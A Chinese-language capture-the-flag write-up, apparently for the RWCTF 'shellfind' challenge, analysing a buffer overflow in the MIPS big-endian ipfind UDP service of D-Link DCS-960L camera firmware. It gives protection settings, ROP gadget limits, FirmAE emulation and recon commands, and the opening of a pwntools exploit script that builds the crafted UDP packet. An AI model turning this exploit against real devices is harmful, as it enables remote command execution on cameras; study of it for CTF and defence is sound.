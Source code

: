 當知道漏洞成因後，開始分析 exploit 的環境，而 ipfind 是一個 mips 架構的執行檔，並且除了 ASLR 之外，沒有其他保護機制：

```
Arch:     mips-32-big
RELRO:    No RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x400000)
RWX:      Has RWX segments
```

看起來非常好利用，但是利用環境中的 ROP gadget 有許多的限制：

1. 沒有 stdout，因此需要知道字串 pointer，但是我們沒有 stack address
2. 沒有 `add rsp, XXX ; jmp rsp` 這種 gadget
3. 控制參數 (a0) 的 gadget 一定會配合一個 function call，而 function call 由暫存器 `$gp` 決定
4. `$gp` 存放 GOT address，因此修改 `$gp` 會讓 function (system) 解析時壞掉

基本上就是 gadget 種類太少，每個 gadget 的功能又相近，因此主要的考點是利用技巧，下方參考幾個參賽隊伍的 writeup 做分析。

P.S. binary 本身為 big endian，所以 pack 時需要注意一下。



---

> https://larry.ngrep.me/2023/01/11/rwctf-5th-shellfind-write-up/

安裝完 FirmAE 後以 debug mode 執行起來：

```bash
sudo ./run.sh -d DIR868L mydlink/DCS-960L_A1_FW_1.09.02_20191128_r4588.bin
```

- `-d` 是因為 debug mode 有提供 shell 可以執行
- 可以把 `firmare.config` TIMEOUT 調小一點，這樣會比較快執行

而在目錄 `/firmadyne` 底下有比較完整功能的 busybox，用 netstat 做 recon：

```bash
~ # /firmadyne/busybox netstat -lnp
...
udp        0      0 0.0.0.0:62976  0.0.0.0:*   910/ddp
udp        0      0 0.0.0.0:62720  0.0.0.0:*   766/ipfind
```

會發現 `ipfind` 服務開在 udp port 62720，而後透過內建的 `gdbserver` attach 上 ipfind 動態 debug，然後發現原本的 exploit 沒有加 `context.endian = big`，設完之後就可以正常執行 ROP，並且發現原本打的 exploit 其實是成功的，但是用來測試的命令是 `curl`，而題目環境 tun/tap 沒有辦法存取到外部的網路，因此都要利用同一個連線來打成功。成功執行 `system(cmd)` 的腳本如下：

```python
#!/usr/bin/python3

from pwn import *
from base64 import b64encode, b64decode

context.arch = 'mips'
context.endian = 'big'

r = remote('192.168.0.1', 62720, typ='udp')

def first():
    payload =  b"FIVI" # magic
    payload += b"\x00\x00\x00\x00"
    payload += b"\n" # newline
    payload += b"\x01\x00" # check1
    payload += b"\x00" * 6 # dummy, affect response byte-11, byte-12
    payload += b"\xff\xff\xff\xff\xff\xff" # magic_string
    payload += b"\x00\x00" # check2
    payload += b"\x00\x00\x00\x00" # check3
    return payload

```